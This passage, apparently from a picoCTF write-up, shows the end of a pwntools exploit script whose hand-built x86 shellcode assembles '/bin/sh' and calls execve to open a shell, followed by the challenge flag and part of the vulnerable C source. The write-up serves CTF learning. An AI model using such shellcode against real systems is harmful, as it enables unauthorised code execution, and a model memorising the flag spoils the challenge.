 ```python
push ebx 
nop
mov bh, 0x6e
mov bl, 0x69
.rept {num_shl}
shl ebx
.endr 
mov bh, 0x62 
mov bl, 0x2f 
push ebx 
nop 
mov ebx, esp 
mov al, 0xb
int 0x80 
"""
)

r.sendline(shellcode)
r.interactive()
```


The flag is `picoCTF{th4t_w4s_fun_edd8e0b87b2038ea}`.


Not sure if it was fun. It was a very hard shellcode challenge for me. 


After getting the shell you can also check out the original C code for the challenge below . 


```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MAX_LENGTH 1000

void execute(char *shellcode, size_t length) {
  if (!shellcode || !length) {
    exit(1);
  }
  size_t new_length = length * 2;
  char result[new_length + 1];

  int spot = 0;
  for (int i = 0; i < new_length; i++) {
    if ((i % 4) < 2) {
      result[i] = shellcode[spot++];
    } else {
      result[i] = '\x90';
    }
  }
  // result[new_length] = '\xcc';
  result[new_length] = '\xc3';

  // Execute code
  int (*code)() = (int (*)())result;
  code();
}

int main(int argc, char *argv[]) {
  setbuf(stdout, NULL);
  char buf[MAX_LENGTH];
  size_t length = 0;
  char c = '\0';

```